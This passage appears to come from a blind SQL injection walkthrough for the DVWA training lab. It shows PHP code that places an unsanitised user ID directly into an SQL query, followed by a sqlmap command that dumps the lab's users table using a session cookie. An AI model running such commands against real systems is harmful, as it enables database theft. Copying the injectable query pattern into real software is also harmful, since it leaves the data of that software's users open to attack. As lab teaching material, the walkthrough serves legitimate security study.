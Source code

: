 ```php

            $exists = false;
            if ($result !== false) {
                try {
                    $exists = (mysqli_num_rows( $result ) > 0);
                } catch(Exception $e) {
                    $exists = false;
                }
            }
            ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
            break;
        case SQLITE:
            global $sqlite_db_connection;

            $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
            try {
                $results = $sqlite_db_connection->query($query);
                $row = $results->fetchArray();
                $exists = $row !== false;
            } catch(Exception $e) {
                $exists = false;
            }

            break;
    }

    if ($exists) {
        // Feedback for end user
        echo '<pre>User ID exists in the database.</pre>';
    } else {
        // User wasn't found, so the page wasn't!
        header( $_SERVER[ 'SERVER_PROTOCOL' ] . ' 404 Not Found' );

        // Feedback for end user
        echo '<pre>User ID is MISSING from the database.</pre>';
    }

}
?> 
```
![](https://cdn-images-1.readmedium.com/v2/resize:fit:800/1*pBB5MoepvFcFdmxyNCFWOw.png)

Payload: 
```bash
sqlmap -u "http://localhost/DVWA/vulnerabilities/sqli_blind/?id=1&Submit=Submit" \
--cookie="PHPSESSID=sik8mit21hrgujka27r06gep1g; security=low" \
--batch --random-agent --dbms=mysql -D dvwa -T users --dump

```
